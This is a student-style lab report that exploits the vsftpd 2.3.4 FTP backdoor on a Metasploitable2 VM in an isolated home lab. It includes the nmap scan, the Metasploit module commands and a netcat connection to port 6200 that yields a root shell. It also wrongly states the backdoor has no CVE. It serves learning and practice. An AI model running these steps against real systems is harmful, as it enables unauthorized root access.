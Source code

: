#  Cybersecurity Home Lab - Report Template

## Lab Title: Exploiting FTP Backdoor Vulnerability (vsftpd 2.3.4)

###  Objective

Demonstrate identification and exploitation of a known FTP vulnerability (vsftpd 2.3.4) to achieve unauthorized remote shell access.



### Lab Environment

| Component        | Configuration                            |
| ---------------- | ---------------------------------------- |
| Attacker Machine | Kali Linux (VirtualBox, 2 CPUs, 4GB RAM) |
| Target Machine   | Metasploitable2 (Host-only Network)      |
| Network Setup    | Host-only Adapter + NAT for Kali         |



###  Vulnerability Details

| Property       | Value                                              |
| -------------- | -------------------------------------------------- |
| Service        | FTP                                                |
| Version        | vsftpd 2.3.4                                       |
| Port           | 21                                                 |
| CVE            | N/A (backdoor, not official CVE)                   |
| Exploit Module | `exploit/unix/ftp/vsftpd_234_backdoor`             |
| Description    | Malicious backdoor allows root shell via port 6200 |

Reference: [Rapid7 Module](https://www.rapid7.com/db/modules/exploit/unix/ftp/vsftpd_234_backdoor)



### 🛠️ Exploitation Steps

#### 1. Discovery - Nmap Scan


nmap -sV 192.168.56.102 -p 21


**Result**:


PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4


#### 2. Exploit with Metasploit

msfconsole
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run

**Result**:

[*] 192.168.56.102:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 192.168.56.102:21 - USER: 331 Please specify the password.
[*] Exploit completed, but no session was created.
```

#### 3. Manual Shell Access

nc 192.168.56.102 6200
whoami


**Result**:
root

###  Outcome

* Successfully accessed root shell manually after exploit.
* Metasploit failed to open session but backdoor was live on port 6200.

###  Screenshots

* Nmap scan result: ![Nmap_Scan](cybersecurity-home-lab/lab_reports/screenshot/nmap_scan_result.png)
* Metasploit output and Netcat shell with 'root' : ![metasploit_output](cybersecurity-home-lab/lab_reports/screenshot/exploit_result.png)
* attacker network setup: ![attacker_net](cybersecurity-home-lab/lab_reports/screenshot/attack-network-set.png)
* kali ping target : ![kali-ping](cybersecurity-home-lab/lab_reports/screenshot/kali_ping_target.png)
* metasploitable network setup: ![metasploit_net](cybersecurity-home-lab/lab_reports/screenshot/meta-network-set.png)


## Target Information

* Target IP: 192.168.56.102
* OS and Services (nmap result):

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4

## Vulnerability Details

* Vulnerability name: vsftpd 2.3.4 Backdoor
* Exploit used: Metasploit module + manual netcat connection
* CVE (if known): N/A (undocumented backdoor)

## Steps Taken

1. Scanned with Nmap
2. Identified vulnerable service (FTP vsftpd 2.3.4)
3. Exploited using Metasploit and Netcat

## Results

* Shell access: Yes (via port 6200)
* Screenshot: ![metasploit_output](exploit_result.png)

## Lessons Learned

* Always verify open ports post-exploit for manual access.
* Not all Metasploit exploits result in automated sessions.
* Critical to understand service versions and exploit behavior.
